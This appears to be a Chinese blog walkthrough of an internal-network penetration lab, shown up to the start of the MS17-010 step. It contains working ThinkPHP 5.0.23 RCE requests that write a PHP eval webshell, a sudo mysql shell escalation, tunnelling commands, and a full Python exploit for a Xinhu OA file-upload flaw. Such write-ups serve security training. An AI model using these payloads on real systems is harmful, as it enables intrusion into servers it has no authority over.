好久没打内网了，前阵子实习也没顾得上复习一下，另外加上某雀懒得充会员了，所以打算重新打一下然后把内容写到博客里面



## 考点

- thinkphp 5.0.23 RCE
- mysql命令提权

- 信呼文件上传nday
- ms17-010(永恒之蓝)
- DCSync

## flag1

### fscan扫端口

https://github.com/shadow1ng/fscan

```bash
./fscan -h [host] -p 1-65535
```

我们扫一下机器开放的端口

```bash
root@VM-16-12-ubuntu:/opt# ./fscan -h 39.98.127.159 -p 1-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
39.98.127.159:22 open
39.98.127.159:80 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://39.98.127.159      code:200 len:5578   title:Bootstrap Material Admin
[+] PocScan http://39.98.127.159 poc-yaml-thinkphp5023-method-rce poc1
已完成 2/2
[*] 扫描结束,耗时: 43.475779494s
```

很明显了，扫出一个ThinkPHP 5.0.23版本的RCE漏洞CVE-2018-20062 https://blog.csdn.net/cscscys/article/details/121792631

访问出来是一个thinkphp框架，利用错误参数报错拿到thinkphp的版本



### TPGUI一把梭

用ThinkPHPGUI工具直接打



然后访问马子并用webshell工具连接就行
flag一般在root目录中，但是之前执行了whoami发现并不是root用户，无法访问root目录下的文件，所以需要提权

### 手动getshell

抓包构造请求



```http
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.239.120
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

有回显，那我们尝试写马

```http
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.239.120
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo+"<?php+@eval($_POST[1]);?>"+>1.php
```

然后访问马子并用蚁剑连接

### sudo提权

先看一下当前用户能允许用sudo执行的命令规则

```bash
sudo -l
```

蚁剑开虚拟终端运行一下

```bash
(www-data:/var/www/html) $ sudo -l
Matching Defaults entries for www-data on ubuntu-web01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ubuntu-web01:
    (root) NOPASSWD: /usr/bin/mysql
```

`www-data` 被允许以 `root` 身份运行 `/usr/bin/mysql`，并且 **无需输入 sudo 密码**

利用mysql去执行命令

https://gtfobins.github.io/gtfobins/mysql/



```bash
sudo mysql -e '\! /bin/sh'
```

因为MySQL客户端支持 `\!` 或 `system` 命令来执行系统命令，所以我们这里启动一个shell，随后执行命令

```bash
(www-data:/var/www/html) $ sudo mysql -e '\! /bin/sh'
(www-data:/var/www/html) $ sudo mysql -e '\! whoami'
root
(www-data:/var/www/html) $ sudo mysql -e '\! ls /root'
flag
(www-data:/var/www/html) $ sudo mysql -e '\! ls /root/flag'
flag01.txt
(www-data:/var/www/html) $ sudo mysql -e '\! cat /root/flag/flag01.txt'
 ██     ██ ██     ██       ███████   ███████       ██     ████     ██   ████████ 
░░██   ██ ░██    ████     ██░░░░░██ ░██░░░░██     ████   ░██░██   ░██  ██░░░░░░██
 ░░██ ██  ░██   ██░░██   ██     ░░██░██   ░██    ██░░██  ░██░░██  ░██ ██      ░░ 
  ░░███   ░██  ██  ░░██ ░██      ░██░███████    ██  ░░██ ░██ ░░██ ░██░██         
   ██░██  ░██ ██████████░██      ░██░██░░░██   ██████████░██  ░░██░██░██    █████
  ██ ░░██ ░██░██░░░░░░██░░██     ██ ░██  ░░██ ░██░░░░░░██░██   ░░████░░██  ░░░░██
 ██   ░░██░██░██     ░██ ░░███████  ░██   ░░██░██     ░██░██    ░░███ ░░████████ 
░░     ░░ ░░ ░░      ░░   ░░░░░░░   ░░     ░░ ░░      ░░ ░░      ░░░   ░░░░░░░░  
Congratulations!!! You found the first flag, the next flag may be in a server in the internal network.
flag01: flag{60b53231-
```

成功拿到三分之一的flag

## 内网穿透

成功拿到这台机器的shell之后，我们就需要进行内网穿透以及横向了

先上传一个fscan和stowaway



chmod给权限

```bash
chmod +x *
```

### fscan内网扫描

然后查看当前内网ip

```bash
(www-data:/tmp) $ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.1.15  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe09:bf10  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:09:bf:10  txqueuelen 1000  (Ethernet)
        RX packets 169704  bytes 151056377 (151.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 93070  bytes 7687167 (7.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1068  bytes 97530 (97.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1068  bytes 97530 (97.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

用fscan扫一下内网ip

```bash
./fscan -h 172.22.1.0/24
```

当前目录下生成了一个result.txt

```bash
172.22.1.21:445 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.21:139 open
172.22.1.2:139 open
172.22.1.18:139 open
172.22.1.21:135 open
172.22.1.18:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.2:88 open
172.22.1.18:3306 open
172.22.1.15:22 open
[+] MS17-010 172.22.1.21	(Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetInfo 
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] NetInfo 
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[*] NetBios 172.22.1.2      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] NetInfo 
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetBios 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
[*] NetBios 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600
[*] OsInfo 172.22.1.2	(Windows Server 2016 Datacenter 14393)
[*] WebTitle http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login
[*] WebTitle http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统
[+] PocScan http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1

```

- 172.22.1.21	XIAORANG-WIN7.xiaorang.lab MS17-010
- 172.22.1.18        XIAORANG-OA01.xiaorang.lab 信呼协同办公系统
- 172.22.1.2          DC:DC01.xiaorang.lab  
- 172.22.1.15 	已拿下 

然后我们需要搭建内网代理

### 搭建隧道

https://github.com/ph4ntonn/Stowaway

```bash
./linux_x64_agent -c [ip]:[port] -s 123 --reconnect 8

./linux_x64_admin -l [port] -s 123

use 0

socks 5555
```

然后我们物理机配置代理



vps配置代理

```bash
sudo vim /etc/proxychains4.conf
```



然后我们先打信呼OA

## flag2

访问信呼OA的地址172.22.1.18，302跳转到登录页面，显示信呼协同办公系统v2.2.8

弱口令登录admin/admin123

### 信呼OA文件上传poc

直接搜漏洞找到一个信呼协同办公系统v2.2.8文件上传漏洞

```python
import os
import requests

session = requests.session()
proxy = {
    "http": "socks5://[ip]:5555",	//替换成自己vps的ip和端口
}

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}

with open("1.php","w") as f:
    f.write("<?php eval($_POST['cmd']);")
    f.close()

session.post(url1, data=data1, proxies=proxy)
res = session.post(url2, files={'file': open('1.php', 'r+')}, proxies=proxy)
os.remove('1.php')

filepath = str(res.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = res.json()['id']
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

session.get(url3, proxies=proxy)
res = session.post(url_pre + filepath,data={"Infernity":"system('whoami');"}, proxies=proxy)
print(res.text)
```



然后用蚁剑连接一下，但是蚁剑也是需要配置代理的



连上后看看用户权限发现是system，最高权限用户

直接在C:/Users/Administrator/flag/flag02.txt下拿到flag第二段

```tex
 ___    ___ ___  ________  ________  ________  ________  ________   ________     
|\  \  /  /|\  \|\   __  \|\   __  \|\   __  \|\   __  \|\   ___  \|\   ____\    
\ \  \/  / | \  \ \  \|\  \ \  \|\  \ \  \|\  \ \  \|\  \ \  \\ \  \ \  \___|    
 \ \    / / \ \  \ \   __  \ \  \\\  \ \   _  _\ \   __  \ \  \\ \  \ \  \  ___  
  /     \/   \ \  \ \  \ \  \ \  \\\  \ \  \\  \\ \  \ \  \ \  \\ \  \ \  \|\  \ 
 /  /\   \    \ \__\ \__\ \__\ \_______\ \__\\ _\\ \__\ \__\ \__\\ \__\ \_______\
/__/ /\ __\    \|__|\|__|\|__|\|_______|\|__|\|__|\|__|\|__|\|__| \|__|\|_______|
|__|/ \|__|                                                                      


flag02: 2ce3-4813-87d4-

Awesome! ! ! You found the second flag, now you can attack the domain controller.
```

## flag3

最后一个ms17-010永恒之蓝的漏洞，因为他影响Windows Server 2008到2016的多个版本

因为永恒之蓝默认攻击445端口，所以要查看445端口是否开启

```bash
netstat -ano
```



是开启监听的，那就直接上kali

```bash
sudo vim /etc/proxychains4.conf
proxychains4 msfconsole

search ms17_010 #利用search搜索ms17——010漏洞
```



这里找到了四个模块，前两个是漏洞利用模块，后两个是辅助模块，主要探测主机是否存在MS17_010漏洞。

然后我们先利用Auxiliary辅助探测模块探测漏洞

### 利用Auxiliary辅助探测模块探测漏洞

```bash
use auxiliary/scanner/smb/smb_ms17_010

show options  #查看这个模块需要配置的信息
```



RHOSTS参数是需要探测主机的ip或者ip范围，可以用来探测该主机是否存在漏洞

设置一下

```bash
set rhosts 172.22.1.21

exploit
```

